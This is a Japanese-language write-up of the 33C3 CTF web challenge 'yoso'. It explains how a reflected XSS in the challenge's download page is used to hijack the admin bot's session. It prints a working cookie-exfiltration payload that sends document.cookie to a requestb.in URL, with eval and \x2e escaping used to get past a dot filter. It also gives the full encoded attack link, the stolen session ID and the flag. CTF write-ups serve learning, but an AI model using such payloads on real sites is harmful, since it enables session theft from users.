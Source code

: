 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/33c3-ctf-yoso/
  - /blog/2016/12/30/33c3-ctf-yoso/
date: "2016-12-30T13:39:40+09:00"
tags: [ "ctf", "writeup", "web", "33c3-ctf", "javascript", "xss", "session-hijack", "csrf", "csrf-token" ]
---
```


# 33C3 CTF: yoso

深夜まで必死で粘ってなんとか倒した。達成感があった。

## problem

一括検索 + 検索履歴保存のサービス。そしてadminはflagについて検索するのが好きとのこと。

![](/blog/2016/12/30/33c3-ctf-yoso/1.png)
![](/blog/2016/12/30/33c3-ctf-yoso/2.png)

## solution

-   `/register.php`/`/login.php/`logout.php`: 何もなさそう
-   `/search.php`: 検索ができる
-   `/bookmark.php`: POSTすればzipが鯖上に生成される
-   `/download.php`: そのzipを削除しつつ取得
-   `/feedback.php`: linkを送ると鯖上で踏んでjsを実行してくれる

`/feedback.php`から`/bookmark.php`にPOSTして出きたzipを奪うのが思い付くが、`/bookmark.php`はCSRF tokenを持つのでだめ。
しかし`/download.php`にはXSSの脆弱性を持つので、これを踏ませてsession hijackにする。

最終的な攻撃linkはこれ: <http://78.46.224.80:1337/download.php?zip=%3Cscript%3Eeval%28%22location%5Cx2ehref%3D%5C%22http%3A%2F%2Frequestb%5Cx2ein%2F18o1k6g1%3F%5C%22%2Bdocument%5Cx2ecookie%3B%22%29%3C%2Fscript%3E>。

実行させたいjavascriptは以下。

``` javascript
location.href = "http://requestb.in/18o1k6g1?" + document.cookie;
```

しかし`/download.zip`では`..`を防ぐのと兼ねて`.`が消去される。なので文字列に持ちあげて`eval`する。
XSSは<http://78.46.224.80:1337/download.php?zip=%3Cmarquee%3EXSS%3C/marquee%3E>みたいに仕込める。

``` html
eval("location\x2ehref=\"http://requestb\x2ein/18o1k6g1?\"+document\x2ecookie;")
http://78.46.224.80:1337/download.php?zip=<script>eval("location\x2ehref=\"http://requestb\x2ein/18o1k6g1?\"+document\x2ecookie;")</script>
```


得られたのは`PHPSESSID=c5u3mgfndm4u241ji3ad9bajn1`。
結局CSRF tokenは破れず。

flag: `33C3_lol_wHo_needs_scr1pts_anyway`
